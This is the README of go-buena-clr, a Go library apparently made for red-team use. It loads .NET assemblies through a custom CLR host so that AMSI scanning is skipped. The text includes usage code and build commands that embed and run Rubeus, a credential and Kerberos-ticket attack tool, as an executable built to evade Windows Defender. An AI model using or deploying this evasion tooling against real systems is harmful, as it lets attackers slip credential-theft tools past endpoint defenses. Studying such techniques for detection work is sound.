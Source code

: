 # go-buena-clr

![go-buena-clr](go-buena-clr.png)

go-buena-clr CLR is the implementation in Go of [Being a Good CLR Host](https://github.com/passthehashbrowns/Being-A-Good-CLR-Host) by Joshua Magri from IBM X-Force Red.

It is built upon the [go-clr](https://github.com/Ne0nd0g/go-clr) project of Ne0nd0g, who in turn forked and maintained the original poc of [go-clr](https://github.com/ropnop/go-clr) by ropnop.

The purpose is to create our own `IHostControl` interface allowing us to implement the `ProvideAssembly` method. We can then use `Load_2` method instead of `Load_3`, circumventing AMSI entirely.


## Usage

Just import the package and use it !

```go
import (
	clr "github.com/almounah/go-buena-clr"
)

//go:embed Rubeus.exe
var testNet []byte

func main() {
    params := []string{"triage"}

    // Load the Good CLR and get the identity string from the .Net
	pRuntimeHost, identityString, _ := clr.LoadGoodClr("v4.0.30319", testNet)

    // Load the Assembly via its identityString
	assembly := clr.Load2Assembly(pRuntimeHost, identityString)

    // Invoke the Assembly
	pMethodInfo, _ := assembly.GetEntryPoint()
	clr.InvokeAssembly(pMethodInfo, params)
}
```

## Examples - Buena Village

Buena Village is a small POC project that showcase go-buena-clr in action. You can check `examples/BuenaVillage/` for a README and the complete code. 

Basically you do:

```bash
cd examples/BuenaVillage
go mod tidy
go run helper/helper.go -file=/home/kali/Desktop/Rubeus.exe && GOOS=windows GOARCH=amd64 go build
```

You will get a `buenavillage.exe` that you can use like `Rubeus.exe` whith native AMSI bypass without memory patching:

```powershell
.\buenavillage.exe triage
.\buenavillage.exe -help
```

## Motivation of Buena CLR

Basically we all noticed that a while ago, defender introduced behavioral rules to prevent AMSI memory patching.

Thanks to IBM X-Force Red, we got a patchless AMSI bypass that does not rely on the CPU like for Hardware Break Point !!

## Contributions

All contributions are welcome :)

## Side Story: Why the name go-buena-clr

In [Mushoku Tensei](https://myanimelist.net/anime/39535/Mushoku_Tensei__Isekai_Ittara_Honki_Dasu) buena village is the village where Rudeus Greyrat spent his childhood. As the name suggest, buena (good in spanish) village, was a good place for Rudeus to restart his life.

I named this project go-buena-clr as it is a good and warm CLR host for Rubeus.exe without AMSI, much like buena village was a good and warm place for Rudeus.

## License

To continue ropnop legacy this project is still licensed under the [Do What the Fuck You Want to Public License](http://www.wtfpl.net/). 
